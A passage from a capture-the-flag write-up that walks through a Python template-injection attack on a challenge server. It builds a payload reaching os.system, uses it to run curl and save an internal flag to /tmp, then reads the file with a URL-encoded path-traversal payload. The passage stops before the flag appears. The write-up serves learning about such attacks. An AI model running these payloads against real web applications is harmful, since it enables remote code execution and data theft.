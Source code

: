 Now that we have found the `WarningMessage` class in the remote server, we traverse the object referneces in the same way we did on our local machine. This means we append `.__init__.__globals__['sys'].modules['os'].system` to our payload. This results in:

```
{{''.__class__.__mro__[2].__subclasses__()[58].__init__.__globals__['sys'].modules['os'].system}}
```

[URL-encode and inject it](http://zumbo-8ac445b1.ctf.bsidessf.net/%7B%7B%27%27.__class__.__mro__%5B2%5D.__subclasses__%28%29%5B58%5D.__init__.__globals__%5B%27sys%27%5D.modules%5B%27os%27%5D.system%7D%7D), and we are greeted with our desired function reference:

```html
[Errno 2] No such file or directory: u"<built-in function system>"
```

Finally, we can now run the `system()` method on the remote server with any command available to the Web server process. The command that should be is fairly clear by now. The `server.py` source code retrieves the third flag by making a HTTP `GET` request to `http://vault:8080/flag`. Let's just do the same thing. If we were at a command prompt on the remote server, all we would need to do is run `curl http://vault:8080/flag`. That would download the `/flag` file from the `vault` server listening on port `8080` and spit out the contents of the file to our terminal. But we're *not* at a terminal on the server, we're in a *Python* method.

Since the `system()` method cannot be used to retrieve the output of the command we run (merely its exit status), we will need to redirect the output of a command to a file that we can write to. By convention on most *nix-style servers, the `/tmp` directory is "world-writeable," meaning any process can write files there, so we can use that directory as a kind of scratchpad. When we pass a command to the `system()` method, Python executes it "in a subshell," so we need to use the standard [shell IO redirection](http://www.tldp.org/LDP/abs/html/io-redirection.html) syntax to do so. We'll pick a name for our temporary file that is memorable but inconspicuous and redirect the output of the `curl` command to it. Our ultimate command would thus look something like `curl http://vault:8080/flag > /tmp/totally.inconspicuous.file`.

At long last, our full injection payload becomes possible:

```
{{''.__class__.__mro__[2].__subclasses__()[58].__init__.__globals__['sys'].modules['os'].system('curl http://vault:8080/flag > /tmp/totally.inconspicuous.file')}}
```

Once again we [URL-encode and inject it](http://zumbo-8ac445b1.ctf.bsidessf.net/%7B%7B%27%27.__class__.__mro__%5B2%5D.__subclasses__%28%29%5B58%5D.__init__.__globals__%5B%27sys%27%5D.modules%5B%27os%27%5D.system%28%27curl+http%3A%2F%2Fvault%3A8080%2Fflag+%3E+%2Ftmp%2Ftotally.inconspicuous.file%27%29%7D%7D) by loading the payload URL with a Web browser, and we receive the `0` exit status from the `system()` method's successful execution of the `curl` command:

```html
[Errno 2] No such file or directory: u"0"
<!-- page: 0, src: /code/server.py -->
```

The flag file contents has now, presumably, been downloaded to the server's local filesystem and resides at `/tmp/totally.inconspicuous.file`. To get it, all we need to do is use the path traversal attack we discovered in the previous part of this challenge. This time, though, instead of `/flag` the flag will be at `/tmp/totally.inconspicuous.file`. Our last URL payload is thus `/%2e%2e%2f%2e%2e%2ftmp/totally.inconspicuous.file`. [Loading that URL](http://zumbo-8ac445b1.ctf.bsidessf.net/..%2f..%2ftmp/totally.inconspicuous.file) now reveals the flag:
